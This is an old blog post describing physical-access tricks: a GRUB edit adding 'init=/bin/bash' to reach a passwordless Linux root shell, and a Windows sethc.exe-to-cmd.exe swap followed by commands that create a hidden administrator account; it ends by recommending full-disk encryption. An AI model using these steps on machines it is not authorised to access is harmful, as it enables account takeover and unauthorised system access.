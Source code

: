 Title: Cute Physical Access Tricks
Date: 2011-08-02 11:11
Author: Admin
Category: Technology
Tags: hacking, linux, password reset, physical access tricks, privilege escalation, root shell, windows

They're cute because they're so adorably simplistic:

If you have physical access to a Linux box, do:

`Press ESC at the grub prompt.`

Press e for edit.

Highlight the line that begins kernel ………, press e

Go to the very end of the line, add rw init=/bin/bash

press enter, then press b to boot your system.

Your system will boot up to a passwordless root shell.

 

For situations with physical access to a Windows box, boot into a live
Linux USB/CD and do:

`mkdir /mnt/ntfs`

mount -t captive-ntfs /dev/hda1 /mnt/ntfs

cd /mnt/ntfs/windows/system32

mv sethc.exe sethc.old; cp cmd.exe sethc.exe

sync

cd \~

umount /mnt/ntfs

shutdown –r

Then, in the shell which appears, make an admin account by doing:

`NET USER admin password /add`

NET LOCALGROUP administrators admin /add

Of course, neither of these work if you're using full-disk encryption.
So, Windows users: [use TrueCrypt][]! And Linux users: use [ecryptfs][]
and[luks][]! Dualbooters can [use this tutorial][]. And Mac users...from
my understanding, you're fucked and there's no way to full-disk encrypt
a Mac, but I don't use Macs, so I could be wrong. Hey, it's the price
you pay for having a hipster computer. /snark!

And full-disk encryption doesn't void flaws in physical security issues,
such as presented in the Evil Maid or Cold Boot attacks. Duh. If they
can physically get to your computer, especially if they can get to it
and then come back to it later, you're still fucked.

  [use TrueCrypt]: http://www.truecrypt.org/
  [ecryptfs]: http://www.makeuseof.com/tag/encrypt-your-files-in-linux-with-ecryptfs/
  [luks]: http://www.adamsinfo.com/linux-luks-crypt-howto/
  [use this tutorial]: http://ubuntuforums.org/showthread.php?t=761530
